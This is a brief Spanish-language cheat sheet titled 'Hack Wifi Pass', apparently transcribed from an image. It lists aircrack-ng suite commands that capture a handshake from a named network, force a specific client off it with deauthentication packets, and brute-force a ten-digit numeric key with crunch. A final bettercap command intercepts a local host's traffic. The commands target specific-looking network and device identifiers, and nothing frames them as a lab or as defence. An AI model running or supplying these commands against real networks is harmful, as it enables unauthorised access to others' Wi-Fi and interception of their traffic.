 # Comandos

	Hack Wifi Pass
	% = numeros
	@ = letras

	$ airmon-ng start wlano
	$ airodump-ng wlan0mon 
	$ airodump-ng -c 1 -w SaraValentina --bssid E0:41:36:36:F5:F8 wlan0mon (Escuchando)
	$ aireplay-ng -0 50 -a E0:41:36:36:F5:F8 -c CC:61:E5:09:A6:25  wlan0mon  (Desautenticar)
	$ crunch  10 10 -t %%%%%%%%%% 1234567890 | aircrack-ng -w - SaraValentina.cap -e SaraValentina
	

	#Capturar Trafico
	$ bettercap -X -T 192.168.1.61 --gateway 192.168.1.254 -O CapturaPrueba.txt



